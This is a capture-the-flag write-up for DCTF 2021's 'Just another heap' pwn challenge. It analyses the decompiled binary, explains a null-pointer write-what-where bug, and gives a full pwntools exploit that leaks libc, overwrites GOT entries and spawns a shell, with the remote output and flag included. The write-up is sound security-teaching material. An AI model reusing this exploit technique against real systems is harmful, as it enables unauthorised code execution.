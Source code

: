 # DCTF 2021

## Just another heap

> 500
> 
> There are so many ways you can pwn this.
> 
> `nc dctf-chall-just-another-heap.westeurope.azurecontainer.io 7481`
>
> [just\_another\_heap](just_another_heap) [Dockerfile](Dockerfile)

Tags: _pwn_ _x86-64_ _malloc_ _null-pointer_ _heap_ _heap-not_ _write-what-where_ _got-overwrite_


## Summary

IMHO, the simplest [portable] way to pwn this was to use a null-pointer + offset to _write-what-where_ the GOT.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

All of the pointers to the heap are in global arrays; the _no-PIE_ will be helpful for that; same goes for the GOT as well (Partial RELRO = GOT vulnerable to overwrite).

### Decompile with Ghidra

> All naming done by hand, there was nothing for free here (except libc labels).

```c
      puts("name:");
      uVar2 = local_38;
      pvVar3 = malloc(0x20);
      *(void **)(&memory_name_ptr_00602260 + uVar2 * 8) = pvVar3;
      prompt_fgets(*(undefined8 *)(&memory_name_ptr_00602260 + local_38 * 8),0x10);
      lVar1 = *(long *)(&memory_name_ptr_00602260 + local_38 * 8);
      sVar4 = strcspn(*(char **)(&memory_name_ptr_00602260 + local_38 * 8),"\n");
      *(undefined *)(sVar4 + lVar1) = 0;
      puts("How long is your memory");
      prompt_lu(&local_48);
      local_30 = malloc(local_48);
      puts("Sometimes our memories fade and we only remember parts of them.");
      prompt_lu(&local_40);
      puts("Would you like to leave some space at the beginning in case you remember later?");
      if (local_48 < local_40) {
        puts("Invalid offset");
      }
      else {
        if (local_30 != (void *)0x0) {
          local_4c = 0;
          while ((ulong)(long)local_4c < local_40) {
            *(undefined *)((long)local_30 + (long)local_4c) = 0x5f;
            local_4c = local_4c + 1;
          }
        }
        local_30 = (void *)((long)local_30 + local_40);
        fflush(stdin);
        puts("What would you like to write");
        prompt_fgets(local_30,local_48 - local_40);
        puts("Would you say this memory is important to you? [Y/N]");
        prompt_fgets(local_24,2);
```

This section of the `create` function contains the _write-what-where_ that we'll use to setup a libc leak as well as overwrite the GOT for a shell.

The `local_30 = malloc(local_48);` statement with a sufficiently large input (`local_48`) will fail and end up as zero (null), with the only check for this an initialization section (`if (local_30 != (void *)0x0) {`).

The `prompt_lu(&local_40);` statement sets our offset and is then used to compute the target address with: `local_30 = (void *)((long)local_30 + local_40);`.  The only input validation is `local_48 < local_40`; the length of the initial length must be greater than the offset (both inputs are `unsigned long`).

With this, we can set the length (`local_48`) to `2**64 - 1`, and `malloc` will quietly fail setting `local_30` to `0`.  This ends up with `local_40` containing the target location to overwrite.  We have our _where_.

The _what_ is provided by: `prompt_fgets(local_30,local_48 - local_40);`.  `prompt_fgets` is just a frontend to `fgets`, however we need to leverage that `int param_2`:

```c
void prompt_fgets(char *param_1,int param_2)
{
  printf("> ");
  fgets(param_1,param_2,stdin);
  return;
}
```

The `local_48 - local_40` passed to `fgets` is problematic, if `local_48` is very large [to get `malloc` to return a null], and `local_40` is relatively small (a valid address, say in the GOT (`0x600000` range)), then the difference will be very large, `fgets` will call `malloc` and that `malloc` will fail as well.

To get a reasonable [small] input for `fgets` we need to find the right value of `local_48` reduced by `local_40` then _anded_ with `0xffffffff` (this is the `int param_2` from `prompt_fgets`; we are calling a function with an `unsigned long` as an input, however the function is expecting an `int` (32-bit), so we can assume only the lower 32-bits will be used).

```python
2**64 - 2**32 + target + size)
```

You can work out the math yourself, but this will properly set `local_48` and `local_40` so that `malloc` nulls out, leaving our target address in `local_40` to satisfy the _where_ (`local_30 = (void *)((long)local_30 + local_40);`), and `local_48 - local_40` will just end up something like `0xffffffff0000000a` that when reduced to 32-bits by `prompt_fgets` will be a `size` of `0xa` in this example.

We have our _what_, now we just need a leak.

```c
      pvVar3 = malloc(0x20);
      *(void **)(&memory_name_ptr_00602260 + uVar2 * 8) = pvVar3;
      prompt_fgets(*(undefined8 *)(&memory_name_ptr_00602260 + local_38 * 8),0x10);
```

At the start of `create` we're prompted for a _name_ that is malloc'd and then the pointer stored in a global array based at `0x602260`.

To leak libc all we need to do is use our _write-what-where_ to change that pointer to point to some place in the GOT or BSS to pickup a libc leak.  The `list` function emits the names and therefore our leak.

> The libc version was provided in the form of a `Dockerfile`.  I've included it (`libc.so.6`) as part of this writeup since a future update to Ubuntu 18.04 may change the version of libc.

## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./just_another_heap')
binary.symbols['names'] = 0x602260

if args.REMOTE:
    p = remote('dctf-chall-just-another-heap.westeurope.azurecontainer.io', 7481)
    libc = ELF('./libc.so.6')
else:
    import signal
    p = process(('stdbuf -i0 -o0 -e0 '+binary.path).split(),preexec_fn=lambda: signal.signal(signal.SIGALRM, signal.SIG_IGN))
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
```

Standard pwntools setup, however I added the symbol `names`, and have my local process ignoring SIGALRM.

> No `setvbuf` in challenge binary, so I had to prepend `stdbuf`.

```python
p.sendlineafter('> ','1')
p.sendlineafter('> ','0')
p.sendlineafter('> ','blah')
p.sendlineafter('> ',str(2**64 - 2**32 + binary.sym.names + 10))
p.sendlineafter('> ',str(binary.sym.names))
p.sendlineafter('> ',p64(binary.got.puts))
p.sendlineafter('> ','N')
p.sendlineafter('> ','N')
p.sendlineafter('> ','5')

p.recvuntil('0: ')
puts = u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

Based on the analysis above this should be fairly clear.  Just add an entry, name it `blah`, but immediately overwrite its pointer with the location of GOT `puts`, then `list` (`5`) and capture the leak.

```python
p.sendlineafter('> ','1')
p.sendlineafter('> ','1')
p.sendlineafter('> ','blah')
p.sendlineafter('> ',str(2**64 - 2**32 + binary.got.strcspn + 10))
p.sendlineafter('> ',str(binary.got.strcspn))
p.sendlineafter('> ',p64(libc.sym.system))
p.sendlineafter('> ','N')
p.sendlineafter('> ','N')
```

Same as the previous, but this time change `strcspn` to `system` in the GOT.

```python
p.sendlineafter('> ','1')
p.sendlineafter('> ','2')
p.sendlineafter('> ','/bin/sh')
p.interactive()
```

Finally, create a 3rd memory, but the `strcspn` that was used to replace the `\n` with `\0` is now `system`, so just ask for a shell as your _name_.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/just_another_heap/just_another_heap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to dctf-chall-just-another-heap.westeurope.azurecontainer.io on port 7481: Done
[*] '/pwd/datajerk/dctf2021/just_another_heap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0x7fd942288aa0
[*] libc.address: 0x7fd942208000
[*] Switching to interactive mode
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ cat flag.txt
dctf{I_h4V3_0_id3a_h0W_y0u_G0T_h3r3}
```
